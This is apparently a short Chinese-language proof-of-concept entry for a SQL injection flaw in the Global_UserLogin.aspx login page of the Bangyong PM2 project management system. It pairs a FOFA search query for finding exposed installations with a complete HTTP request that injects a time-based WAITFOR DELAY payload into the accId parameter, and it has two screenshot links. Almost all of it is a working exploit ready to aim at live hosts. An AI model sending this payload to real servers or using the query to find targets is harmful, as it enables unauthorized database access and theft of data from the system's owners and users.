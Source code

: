 ## 邦永PM2项目管理系统Global_UserLogin.aspx存在SQL注入漏洞

邦永PM2项目管理系统/Global/Global_UserLogin.aspx存在SQL注入漏洞，导致数据泄露。

## fofa

```
body="PM2项目管理系统BS版增强工具.zip"
```

## poc

```
GET /Global/Global_UserLogin.aspx?accId=1%27%3BWAITFOR+DELAY+%270%3A0%3A5%27--&loginCode=&password=&type= HTTP/1.1
Host: your-ip
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407031715215.png)

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407031715529.png)
